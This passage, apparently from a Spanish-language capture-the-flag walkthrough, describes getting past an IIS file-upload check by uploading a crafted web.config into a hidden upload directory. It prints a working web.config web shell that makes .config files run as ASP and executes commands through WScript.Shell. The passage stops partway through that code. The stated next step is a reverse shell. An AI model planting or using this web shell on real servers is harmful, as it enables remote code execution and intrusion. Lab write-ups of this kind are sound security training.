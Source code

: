 Vemos que podemos subir un archivo, por lo que vamos a intentar subir un `.aspx` de forma que se pueda ejecutar codigo remoto hacia el servidor con una interfaz en el archivo para que se vea todas las salidas de comandos de forma comoda y de ahi poder entrar a la maquina con una `reverse shell`.

Pero si intentamos subir el archivo nos dara error ya que esta validando el tipo de archivo que se esta subiendo, pero si inspeccionamos la pagina veremos el siguiente comentario:

```html
<!-- /Subiditosdetono -->
```

Si entramos en el como directorio web, veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `web.config` que si entramos veremos que nos da un error ya que el archivo no esta, pero podemos crear un archivo llamado asi y meter la configuracion para que podamos ejecutar comandos de forma remota.

Tras investigar mucho encontre en la pagina de `HackTricks` un ejemplo de `web.config` que contiene lo siguiente:

> web.config

```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
```